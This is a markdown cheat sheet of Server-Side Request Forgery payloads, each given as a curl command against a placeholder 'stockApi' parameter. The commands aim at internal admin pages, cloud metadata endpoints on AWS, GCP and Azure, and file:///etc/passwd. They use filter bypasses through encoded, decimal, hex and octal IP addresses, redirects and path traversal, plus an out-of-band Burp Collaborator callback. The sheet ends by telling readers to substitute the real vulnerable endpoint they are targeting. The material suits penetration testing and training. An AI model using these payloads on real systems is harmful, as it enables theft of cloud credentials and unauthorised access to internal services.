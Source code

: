 # SSRF Payloads with Curl Examples

This document categorizes various Server-Side Request Forgery (SSRF) payloads based on the type of attack and provides corresponding curl commands for easy understanding and usage.

---

## 1. **Basic SSRF to Internal Services**
### Description:
Attempt to access internal HTTP services like localhost or 127.0.0.1

```
# Curl command:
curl -X POST https://example.com/api/check-stock -d "stockApi=http://127.0.0.1/admin"
curl -X POST https://example.com/api/check-stock -d "stockApi=http://localhost/admin"
```

---

## 2. **SSRF via DNS Resolution**
### Description:
Use domain names that resolve to localhost internally.

```
# Curl command:
curl -X POST https://example.com/api/check-stock -d "stockApi=http://internal.example.com/admin"
```

---

## 3. **SSRF to Access Cloud Metadata Services**
### Description:
Target cloud metadata endpoints (AWS, GCP, Azure).

```
# AWS Metadata
curl -X POST https://example.com/api/check-stock -d "stockApi=http://169.254.169.254/latest/meta-data/"

# GCP Metadata
curl -X POST https://example.com/api/check-stock -d "stockApi=http://metadata.google.internal/computeMetadata/v1/"

# Azure Metadata
curl -X POST https://example.com/api/check-stock -d "stockApi=http://169.254.169.254/metadata/instance?api-version=2021-02-01"
```

---

## 4. **SSRF to File Protocol (LFI-like)**
### Description:
Attempt to read files via file:// protocol.

```
# Curl command:
curl -X POST https://example.com/api/check-stock -d "stockApi=file:///etc/passwd"
```

---

## 5. **SSRF with Redirect Bypass**
### Description:
Use a redirecting domain to bypass filters.

```
# Curl command:
curl -X POST https://example.com/api/check-stock -d "stockApi=http://redirector.com/redirect?target=http://127.0.0.1/admin"
```

---

## 6. **SSRF with URL Encoding (Bypass Filters)**
### Description:
Bypass filters using encoding tricks.

```
# Encoded localhost
curl -X POST https://example.com/api/check-stock -d "stockApi=http://%31%32%37%2e%30%2e%30%2e%31/admin"
```

---

## 7. **SSRF via Uncommon IP Encodings**
### Description:
Use hexadecimal, octal, or decimal formats to bypass filtering.

```
# Decimal representation
curl -X POST https://example.com/api/check-stock -d "stockApi=http://2130706433/admin"

# Hexadecimal
curl -X POST https://example.com/api/check-stock -d "stockApi=http://0x7f000001/admin"

# Octal
curl -X POST https://example.com/api/check-stock -d "stockApi=http://017700000001/admin"
```

---

## 8. **Blind SSRF (Out-of-Band)**
### Description:
Use Burp Collaborator or webhook.site to detect SSRF.

```
# Curl command:
curl -X POST https://example.com/api/check-stock -d "stockApi=http://your-collaborator-url.burpcollaborator.net"
```

---

## 9. **SSRF using Path Traversal**
### Description:
Use path traversal to escape from filters and reach internal services.

```
# Curl command:
curl -X POST https://example.com/api/check-stock -d "stockApi=http://example.com/../../admin"
```

---

## 10. **SSRF to Reach External Domains (Sometimes Restricted)**
### Description:
Try SSRF to valid external domains if allowed.

```
# Curl command:
curl -X POST https://example.com/api/check-stock -d "stockApi=http://google.com"
```

---

> Replace `https://example.com/api/check-stock` with the actual vulnerable endpoint you're targeting.

